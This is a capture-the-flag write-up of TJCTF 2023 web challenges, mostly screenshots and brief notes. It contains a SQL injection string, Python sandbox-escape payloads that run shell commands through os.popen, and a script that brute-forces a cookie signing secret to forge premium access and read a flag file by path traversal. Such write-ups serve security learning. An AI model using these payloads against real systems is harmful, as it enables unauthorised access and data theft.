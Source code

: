 # Web challenges in TJCTF 2023
- [hi](#hi)
- [swill-squill](#swill-squill)
- [outdated](#outdated)
- [pay-to-win](#pay-to-win)
- [ez-sql](#ez-sql)
- [back-to-the-past](#back-to-the-past)
- [notes](#notes)
- [yolo](#yolo)
- [complainer](#complainer)

-----

## hi

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/d1bf92ee-d474-4bb6-9a0b-0dedf8b4c38a)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/11d70c38-edd4-4676-a276-f70ee50410e6)

Nothing interesting in the website. But there is something interesting in the source.

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/af75691d-0cc6-4bd9-940f-230fc6c765c6)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/f3791466-1a0f-45f7-bb95-952bd7e394f3)

Flag: `tjctf{pretty_canvas_577f7045}`

-----

## swill-squill

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/f96c4654-7412-44fe-952a-8712b2f4cbf0)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/358fe78e-55b0-4984-b23d-3b1a9d6cee25)

This is vulnerable to basic `' or 1=1 ; --` SQL injection.

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/cb9c8d95-9877-40ce-9926-c8e87003b62b)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/93c86016-9219-4c20-bd7f-7281803c06c9)

Flag: `tjctf{swill_sql_1y1029345029374}`

-----

## outdated

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/fdfb692b-6471-4e58-8042-54f3e0e4a3f4)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/8c71c4bb-540a-47dd-9634-a5cae54556b2)

Some blacklisted items here but its essentially a SSTI sort of. I tried a basic payload.

`print(''.__class__.__mro__[1].__subclasses__())`

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/eb00a81f-7428-4cff-8683-3b7c88001e63)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/da577c04-8ffc-4092-8475-3b53734cf0d2)

4th last item is my [favourite](https://blog.p6.is/Python-SSTI-exploitable-classes/#Using-os-wrap-close).

`print(''.__class__.__mro__[1].__subclasses__()[-4].__init__.__globals__['sys'].modules['os'].popen('ls').read())`

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/04537d2d-ec8a-4aae-910a-e967aadefb56)

`print(''.__class__.__mro__[1].__subclasses__()[-4].__init__.__globals__['sys'].modules['os'].popen('cat flag-cce1c56d-466d-4af9-8ae7-c7bcf99d5c49.txt').read())`

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/0590a762-f28d-4ba3-9789-b6cb9f8219db)

Flag: `tjctf{oops_bad_filter_3b582f74}`

-----

## pay-to-win

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/13e85289-50bc-453b-a680-b6840b097627)

Need to bypass this so need to bruteforce the 6 character key.

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/0f5b034a-b483-47d4-aebb-2a332bbbba0b)

Getting premium allows us to load anything. Like the flag

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/eca7551c-58cf-4dec-908c-9f22d5c519c0)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/493c079d-4191-4fad-b75a-76fe380942da)

```py
import requests
import hashlib
import itertools

characters = 'abcdefghijklmnopqrstuvwxyz0123456789'
length = 6
combinations = itertools.product(characters, repeat=length)

url = 'https://pay-to-win.tjc.tf/'

new = "eyJ1c2VybmFtZSI6ICJqZXJvbWUiLCAidXNlcl90eXBlIjogInByZW1pdW0ifQ==" #'{"username": "jerome", "user_type": "premium"}'
old = "eyJ1c2VybmFtZSI6ICJqZXJvbWUiLCAidXNlcl90eXBlIjogImJhc2ljIn0=" #'{"username": "jerome", "user_type": "basic"}'
h = "46378b50e362bb73a60886b2d55957b6a79acd1ae8d6069a7bce2fbbda3f640c"


def hash(data):
    return hashlib.sha256(bytes(data, 'utf-8')).hexdigest()

actual_secret = ""
actual_hash = ""

for c in combinations:
    secret = ''.join(c)
    hashed = hash(old + secret)

    if hashed == h:
        actual_secret = secret
        actual_hash = hash(new + secret)
        break

print(actual_secret)
print(actual_hash)

r = requests.get(url + "?theme=/secret-flag-dir/flag.txt", cookies={'data': new, 'hash': actual_hash})

print(r.text)
```

Flag: `tjctf{}`

-----

## ez-sql

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/524ff6cb-739d-41df-960a-976b50af6b99)

## back-to-the-past

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/0326c59a-7106-47aa-bc80-d4321a69488e)

## notes

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/4f8dd332-0205-4187-b39d-a6696b070835)

## yolo

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/f595009a-7753-4e21-b65a-4a9eaea4fdab)

## complainer

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/29d4dbe9-1db7-4980-accc-bc9c57a086c0)
